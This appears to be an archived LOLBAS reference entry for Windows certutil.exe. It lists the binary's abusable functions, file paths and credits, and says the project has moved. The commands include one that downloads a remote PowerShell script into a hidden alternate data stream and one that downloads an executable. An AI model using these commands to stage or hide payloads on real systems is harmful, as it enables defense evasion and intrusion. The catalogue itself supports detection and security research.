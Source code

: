 # UPDATE BOOKMARKS - PROJECT MOVED TO A DEDICATED PROJECT SITE. THIS SITE WILL NOT BE UPDATED ANYMORE, BUT WILL BE KEPT FOR HISTORICAL REASONS.
New site: https://github.com/LOLBAS-Project/LOLBAS
Web portal: https://lolbas-project.github.io/ 
## Certutil.exe

* Functions: Download, Add ADS, Decode, Encode

```
certutil.exe -urlcache -split -f http://7-zip.org/a/7z1604-x64.exe 7zip.exe    
    
certutil.exe -urlcache -split -f https://raw.githubusercontent.com/Moriarty2016/git/master/test.ps1 c:\temp:ttt    
    
certutil -encode inputFileName encodedOutputFileName   
    
certutil -decode encodedInputFileName decodedOutputFileName
```

Acknowledgements:
* Matt Graeber - @mattifestation
* Moriarty - @Moriarty2016

Code sample:
* 

Resources:
* https://twitter.com/Moriarty_Meng/status/984380793383370752
* https://twitter.com/mattifestation/status/620107926288515072

Full path:
```
c:\windows\system32\certutil.exe
c:\windows\sysWOW64\certutil.exe
```

Notes:



 
